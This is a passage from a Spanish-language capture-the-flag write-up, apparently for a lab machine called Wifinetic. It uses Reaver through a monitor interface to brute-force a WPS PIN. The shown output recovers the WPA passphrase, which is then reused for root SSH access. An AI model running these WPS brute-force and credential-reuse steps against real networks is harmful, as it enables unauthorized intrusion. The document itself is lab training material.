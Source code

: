 Al revisar la información proporcionada, se pueden observar varios puntos interesantes, como por ejemplo:

- Las **interfaces wlan0** y **wlan1** pertenecen a la misma red. Sin embargo, la **wlan0** tiene la dirección de red **.1**, que comúnmente pertenece al **gateway**. Por lo tanto, si se quiere realizar un ataque, la dirección **MAC** de este equipo sería BSSID (Identificador de red)."

- Existe una interfaz llamada **mon0** y, al investigar un poco en internet, parece que las interfaces que cuentan con este nombre comúnmente se utilizan para la tarea de monitorear la red. Por lo tanto, puede ser clave para realizar un ataque con **reaver**

Por lo tanto, se concluye que se puede realizar un ataque a la red a la que pertenece la interfaz wlan0 mediante la interfaz mon0, con la ayuda de la herramienta Reaver. Esto se puede hacer con el siguiente comando:

```bash
reaver -b 02:00:00:00:00:00 -i mon0 -v

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 02:00:00:00:00:00
[+] Received beacon from 02:00:00:00:00:00
[+] Trying pin "12345670"
[!] Found packet with bad FCS, skipping...
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] Trying pin "12345670"
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] Trying pin "12345670"
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'
netadmin@wifinetic:~$
```
{: .nolineno}

Ahora, con la credencial obtenida, puedes intentar conectarte como usuario **root** al equipo

```bash
ssh root@10.10.11.247
root@10.10.11.247's password: WhatIsRealAnDWhAtIsNot51121!
root@wifinetic:~#
```


